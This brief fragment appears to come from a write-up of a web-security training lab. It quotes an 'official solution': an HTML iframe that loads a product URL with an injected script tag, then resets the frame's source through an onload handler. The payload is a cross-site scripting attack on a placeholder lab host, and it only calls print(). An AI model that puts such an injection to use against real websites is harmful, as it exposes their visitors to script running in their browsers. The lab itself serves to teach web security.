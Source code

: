 The official solution does this sending only one message:

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
